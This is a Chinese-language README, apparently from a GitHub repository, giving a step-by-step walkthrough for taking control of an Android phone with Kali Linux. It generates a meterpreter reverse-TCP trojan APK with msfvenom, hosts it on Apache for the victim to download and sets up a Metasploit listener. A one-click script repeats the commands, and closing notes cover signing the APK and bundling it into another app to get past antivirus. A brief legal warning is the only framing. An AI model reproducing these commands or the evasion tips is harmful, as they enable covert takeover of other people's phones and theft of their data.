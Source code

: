 # 使用Kali入侵安卓手机
# 未经容许的入侵是违法行为！！！请不要随意模仿！！！
步骤：
1. SSH连接上kali<br>
![图像_2021-08-19_182808](https://user-images.githubusercontent.com/71908235/130053586-a06330ed-4068-409d-91dd-afdc25cb422b.png)
2. 生成一个木马apk 命令：msfvenom -p android/meterpreter/reverse_tcp LHOST=这里填kali的IP地址 LPORT=8888 R > app.apk<br>
4. 输入service apache2 start开启服务器服务，再输入sudo cp app.apk /var/www/html将生成的apk文件复制到html文件夹下，然后执行rm /var/www/html/index.html删除掉自带的网页<br>
![图像_2021-08-19_184536](https://user-images.githubusercontent.com/71908235/130055912-8b0e36ef-549f-403a-84f9-ee3ebe2c3271.png)<br>
5. 打开msfconsole（直接粘贴至控制台即可），等待到">"字样出现时继续操作<br>
![图像_2021-08-19_184838](https://user-images.githubusercontent.com/71908235/130056307-6e614687-508a-4182-b686-fe3f4b7e076f.png)
6. 输入use exploit/multi/handler<br>
![图像_2021-08-19_185337](https://user-images.githubusercontent.com/71908235/130056841-85082b3f-a0f4-4bcf-86d5-13a16626c9c9.png)
7. 输入set payload android/meterpreter/reverse_tcp<br>
![图像_2021-08-19_190033](https://user-images.githubusercontent.com/71908235/130057714-9e8f20b2-6fea-4bda-881c-6ef160118e05.png)
8. 输入options，发现HOST和PORT没有设置，设置host和post未创建apk时的IP地址和端口：<br>
![图像_2021-08-19_190220](https://user-images.githubusercontent.com/71908235/130057928-3c2aae58-cf13-4a67-aea4-079be575286d.png)
[![fqVcSH.png](https://z3.ax1x.com/2021/08/19/fqVcSH.png)](https://imgtu.com/i/fqVcSH)
9. 输入exploit开启监听出现Started reverse TCP handler on 时就成功开启了<br>
[![fqVzkT.png](https://z3.ax1x.com/2021/08/19/fqVzkT.png)](https://imgtu.com/i/fqVzkT)
10. 在靶机上访问Kali的IP地址，找到app.apk然后就可以在Kali上控制手机了<br>
<br>
一键脚本：<br>
msfvenom -p android/meterpreter/reverse_tcp LHOST=这里写KaliIP LPOST=8888 R > app.apk<br>
service apache2 start<br>
sudo cp app.apk /var/www/html<br>
rm /var/www/html/index.html<br>
msfconsole<br>
use exploit/multi/handler<br>
set payload android/meterpreter/reverse_tcp<br>
set LPORT 8888<br>
set LHOST 这里写KaliIP<br>
exploit<br>
<br>
注：<br>
1. 可以使用zipalign对apk进行对齐 zipalign -v 4 text.apk text1.apk<br>
2. 可以生成密钥对 例如 keytool -genkey -v -keystore cg.keystore -alias cg -keyalg RSA -keysize 2048 -validity 10000  模板keytool -genkeypair -keystore 密钥库名 -alias 密钥别名 -validity 天数 -keyalg RSA<br>
3. 可以对apk签名 例如 apksigner sign --ks cg.keystore --ks-key-alias cg text1.apk 模板apksigner sign --ks 密钥库名 --ks-key-alias 密钥别名 text1.apk<br>
4. 可以对apk进行签名验证apksigner verify -v --print-certs text1.apk<br>
还有：直接使用msfvenom生成的裸马，过不了免杀，版本也低，安装不了，捆绑是最简单的，然后做好签名优化就行<br>
